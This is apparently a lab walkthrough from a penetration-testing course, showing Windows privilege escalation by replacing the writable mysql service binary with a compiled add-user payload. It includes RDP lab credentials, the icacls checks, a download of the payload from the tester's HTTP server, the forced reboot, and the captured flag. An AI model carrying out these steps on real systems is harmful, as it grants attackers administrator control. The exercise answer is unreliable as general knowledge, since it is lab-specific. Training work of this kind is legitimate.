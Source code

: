 # Questions 1
Follow the steps outlined in this section on CLIENTWK220 (VM #1) to replace the service binary of the service mysql. Enter the flag, which can be found on the desktop of user daveadmin.

xfreerdp /u:dave /p:qwertqwertqwert123 /v:192.168.178.220

# Get a list of all installed Windows services which are in the running state
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
...
Apache2.4     Running "C:\xampp\apache\bin\httpd.exe" -k runservice
mysql   Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
...
# Check if dave user able to perform write on both Path
icacls "C:\xampp\apache\bin\httpd.exe"
icacls "C:\xampp\mysql\bin\mysqld.exe"
...
BUILTIN\Users:(F)
...

# Create payload
nano adduser.c # Paste the code 
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

python3 -m http.server 80

# Upload payload
PS C:\Users\dave> iwr -uri http://192.168.45.208/adduser.exe -Outfile adduser.exe
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

PS C:\Users\dave> net stop mysql
System error 5 has occurred.
Access is denied.

# Unfortunately dave dont have permission to stop the service.
# Since we dont have permission lets check if the service Startup type is Auto then we can restart the OS to make the mysql restart on next Startup
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
Name  StartMode
----  ---------
mysql Auto

# Restart service
shutdown /r /t 0
# We should always avoid the system reboot during pentest

PS C:\Users\dave> net user
...
dave2
...
# User is created
PS C:\Users\dave> Get-LocalGroupMember administrators
...
User        CLIENTWK220\dave2         Local
...
# Change to dave2 user
start-process PowerShell -verb runas
PS C:\Users\daveadmin\Desktop> type flag.txt
OS{6ff326c682784876aaca13206eef94ea}


